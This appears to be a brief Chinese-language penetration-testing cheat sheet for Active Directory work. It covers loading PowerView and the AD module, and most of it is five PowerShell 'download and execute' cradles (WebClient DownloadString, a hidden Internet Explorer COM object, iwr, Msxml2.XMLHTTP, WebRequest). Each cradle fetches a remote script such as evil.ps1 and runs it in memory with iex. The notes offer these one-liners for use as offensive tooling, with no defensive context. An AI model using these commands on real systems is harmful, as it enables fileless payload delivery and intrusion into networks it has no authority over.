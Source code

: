 # 引入powershell脚本

一个```.```空一格后面加引入脚本
```
. C:\AD\Tools\PowerView.ps1
```

# 引入powershell模块
```
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

# 列出模块命令
```
Get-Command -Module <modulename>
```

# 下载执行

1.
```
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

2.
```
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

3.
```
PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')
```

4.
```
$h=New-Object -ComObjectMsxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```

5.
```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

